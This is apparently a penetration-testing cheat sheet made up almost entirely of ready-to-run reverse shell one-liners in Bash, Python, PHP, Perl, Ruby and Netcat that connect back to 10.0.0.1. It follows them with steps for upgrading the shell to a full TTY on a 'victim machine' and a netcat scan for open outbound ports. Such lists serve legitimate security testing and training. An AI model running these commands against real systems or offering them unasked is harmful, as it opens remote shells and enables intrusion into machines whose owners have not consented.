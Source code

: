 ## Reverse shell

**1. Reverse shell list**  

	Bash  
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

	Python  
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

	Php  
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

	Perl  
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

	Ruby  
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat  
	nc -e /bin/sh 10.0.0.1 1234
	(Netcat without -e flag)
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 

**== Upgrading half shells to fully interactive TTYs without closing nc session. ==**

python -c 'import pty; pty.spawn("/bin/bash")'

background remote shell with Ctrl+Z    // on victim machine

stty -a | grep rows    //on attacking machine  
speed 38400 baud; rows 55; columns 205; line = 0;  
echo $TERM     // on attacking machine  
sty raw echo   // attacking machine  
fg             // attacking machine  
reset          // attacking machine  
export SHELL=BASH          //on victim machine			
export TERM=xterm-256color //on victim machine			 	 
stty rows 55 columns 205   //on victim machine. See stty -a  

**TBC. Check which port is allowed for reverse shell** 

	sometime certain out going traffic is blocked by your victim   
	nc -nvv -w 1 -z "Your IP Address" 1-100  
	open Wireshark  
